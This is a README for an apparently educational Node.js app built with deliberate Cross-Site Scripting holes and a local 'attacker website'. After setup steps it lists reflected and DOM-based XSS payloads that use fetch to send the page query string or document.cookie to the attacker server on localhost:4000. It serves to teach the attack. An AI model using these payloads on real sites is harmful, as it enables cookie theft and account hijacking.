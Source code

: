 This repository contains a sample web application with Cross-Site Scripting (XSS) vulnerabilities and its attacker website.

---
### Technology

This project uses the following technologies:

-  [Node.js](https://nodejs.org/)

### Running the Application

2. Move to the root folder of the project (`xss-sample-app`) in your machine and install the dependencies by running the following command:

   ```shell
   npm install
   ```

3. To launch the web application, run the following command:

   ```shell
   node server.js
   ```

4. Point your browser to [http://localhost:3000](http://localhost:3000) to access the sample web app.

5. To launch the attacker website, run the following command:

   ```shell
   node attacker-server.js
   ```

6. Point your browser to [http://localhost:4000](http://localhost:4000/) to access the attacker website


### Reflected XSS

#### Injecting the malicious code:
`<script>fetch(`http://localhost:4000?data=${encodeURIComponent(window.location.search)}`)</script>`


### What if malicious code looks like:
`<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>`

#### DOM based XSS

#### Injecting the malicious code:
insert the following string in the search box, and click the Go button:

`<img src="noimage" onerror=fetch(`http://localhost:4000?data=${document.cookie}`)></img>`

